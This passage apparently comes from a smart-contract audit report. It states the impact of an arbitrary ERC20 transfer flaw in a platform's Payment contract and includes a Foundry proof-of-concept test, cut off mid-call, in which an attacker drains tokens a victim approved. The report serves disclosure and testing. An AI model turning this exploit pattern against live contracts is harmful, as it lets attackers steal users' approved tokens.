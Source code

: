 ### Impact

The users of the platform suffer a complete loss of any tokens they have approved to the contract. The attacker gains all these tokens with minimal effort. This vulnerability affects all users who approve tokens to the contract, which is a common requirement for normal platform functionality such as creating agents with tokens or topping up user balances.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {Vm} from "forge-std/Vm.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";
import {Payment} from "../src/Payment.sol";
import {MockERC20} from "./MockERC20.sol";

contract POCArbitraryERC20TransferTest is Test {
    BlueprintV5 public blueprint;
    MockERC20 public mockToken;
    Payment public payment;

    address public victim = address(0x111);
    address public attacker = address(0x222);
    address public attackerWallet = address(0x333);

    function setUp() public {
        // Deploy contracts
        blueprint = new BlueprintV5();
        blueprint.initialize(); // initialize the contract
        
        mockToken = new MockERC20();
        payment = new Payment();
        
        // Setup victim with tokens
        mockToken.mint(victim, 1000 ether);
        
        // Victim approves both contracts to spend tokens
        // This would typically happen when the victim interacts with the platform
        vm.startPrank(victim);
        mockToken.approve(address(blueprint), 100 ether);
        mockToken.approve(address(payment), 100 ether);
        vm.stopPrank();
        
        // Verify initial balances
        assertEq(mockToken.balanceOf(victim), 1000 ether);
        assertEq(mockToken.balanceOf(attackerWallet), 0);
    }

    function test_ArbitraryERC20Transfer() public {
        // STEP 1: Verify the victim has approved tokens to both contracts
        assertEq(mockToken.allowance(victim, address(blueprint)), 100 ether);
        assertEq(mockToken.allowance(victim, address(payment)), 100 ether);
        
        // STEP 2: Attacker directly calls the payWithERC20 function in the Payment contract
        // Note: The attacker doesn't need any special permissions to do this
        vm.prank(attacker);
        
        // The attacker can transfer tokens from the victim to any address they want
        // as long as the victim has approved the payment contract
        payment.payWithERC20(
```